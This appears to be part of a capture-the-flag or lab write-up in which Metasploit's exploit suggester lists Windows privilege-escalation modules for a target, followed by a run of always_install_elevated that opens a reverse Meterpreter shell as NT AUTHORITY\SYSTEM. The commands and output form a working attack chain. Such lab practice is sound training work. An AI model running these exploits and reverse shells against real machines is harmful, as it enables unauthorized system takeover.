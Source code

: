 ```
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/always_install_elevated                  Yes                      The target is vulnerable.
 2   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2021_40449                           Yes                      The target appears to be vulnerable. Vulnerable Windows 10 20H2 build detected!
 6   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/cve_2023_28252_clfs_driver               Yes                      The target appears to be vulnerable. The target is running windows version: 10.0.19042.0 which has a vulnerable version of clfs.sys installed by default                                                                                                                                                   
 9   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```

#### Run `exploit/windows/local/always_install_elevated`
```
msf6 exploit(windows/local/always_install_elevated) > use exploit/windows/local/always_install_elevated
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/always_install_elevated) > set LHOST tun0
LHOST => 10.10.16.5
msf6 exploit(windows/local/always_install_elevated) > set LPORT 6666
LPORT => 6666
msf6 exploit(windows/local/always_install_elevated) > run

[*] Started reverse TCP handler on 10.10.16.5:6666 
[*] Uploading the MSI to C:\Users\Phoebe\AppData\Local\Temp\kiHkyMlzvcD.msi ...
[*] Executing MSI...
[*] Sending stage (177734 bytes) to 10.129.222.158
[+] Deleted C:\Users\Phoebe\AppData\Local\Temp\kiHkyMlzvcD.msi
[*] Meterpreter session 2 opened (10.10.16.5:6666 -> 10.129.222.158:65374) at 2025-08-25 18:18:36 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
